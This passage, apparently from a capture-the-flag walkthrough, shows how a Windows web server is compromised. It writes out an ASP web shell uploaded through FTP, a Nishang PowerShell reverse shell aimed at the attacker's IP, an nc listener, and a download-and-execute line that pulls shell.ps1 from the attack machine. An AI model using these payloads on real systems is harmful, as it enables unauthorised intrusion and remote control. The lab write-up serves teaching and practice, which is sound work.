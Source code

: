 Perfect, it does execute ASP code! We’ll use this to gain an initial foothold on the system.

## Initial Foothold <a id="22c8"></a>

Create a _cmd.asp_ file on the attack machine that contains the following simple web shell.

```text
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c whoami")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```

The above code executes the _whoami_ command and outputs it on the screen. Upload the _cmd.asp_ file on the FTP server and view it on the browser.

![](../images/max/798/1*jumMYZLn6cHZhJmXlkwH5A.png)

We have code execution! Download the [Nishang](https://github.com/samratashok/nishang) repository and copy the _Invoke-PowerShellTcp.ps1_ script into your current directory.

```text
cp ../../../tools/nishang/Shells/Invoke-PowerShellTcp.ps1 .
mv Invoke-PowerShellTcp.ps1 shell.ps1
```

Add the following line to the end of the script with the attack machine configuration settings.

```text
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.7 -Port 1234
```

When called, this sends a reverse shell back to our attack machine on port 1234.

Setup a listener to receive the reverse shell.

```text
nc -nlvp 1234
```

Next, change the _cmd.asp_ file to download the PowerShell script and execute it.

```text
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.7:5555/shell.ps1')")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```
